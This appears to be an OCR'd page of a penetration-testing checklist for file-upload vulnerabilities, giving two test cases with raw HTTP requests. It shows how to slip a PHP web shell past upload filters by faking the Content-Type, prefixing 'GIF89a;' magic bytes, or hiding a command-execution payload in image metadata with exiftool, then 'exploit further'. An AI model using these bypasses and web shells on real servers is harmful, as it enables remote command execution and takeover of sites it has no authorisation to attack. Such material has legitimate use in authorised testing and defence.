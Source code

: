 ## Test Case - 5: Content Bypass / Using Magic Bytes

```markdown
1. Find the upload request and send it to the repeater
2. Try all Four above bypass first, if they doesn't works then see if file content is been
	 checked. Try all five of this case in combo for more success rate.

POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php

[...]

3. Change the Content-Type: application/x-php to Content-Type: image/gif and Add the 
	 text "GIF89a;" before you shell-code.

POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: image/gif

GIF89a; <?php system($_GET['cmd']); ?>

4. Try more from here https://en.wikipedia.org/wiki/List_of_file_signatures and change 
	 Content-Type: accordingly
5. If successful upload better Shell and POC, and see how can you increase critically.
```

## Test Case - 6: Magic Bytes and Metadata Shell

```markdown
1. Find the upload request and send it to the repeater
2. Try all above bypass first, if they doesn't works then see if file content is been
	 checked. Try all six of this case in combo for more success rate.

POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php

[...]

4. First Bypass Content-Type checks by setting the value of the 
	 Content-Type header to: image/png , text/plain , application/octet-stream
5. Introduce the shell inside the metadata using tool exiftool.

exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg

6. Now try uploading this modified img.jpg
7. Exploit further to increase critically.
```
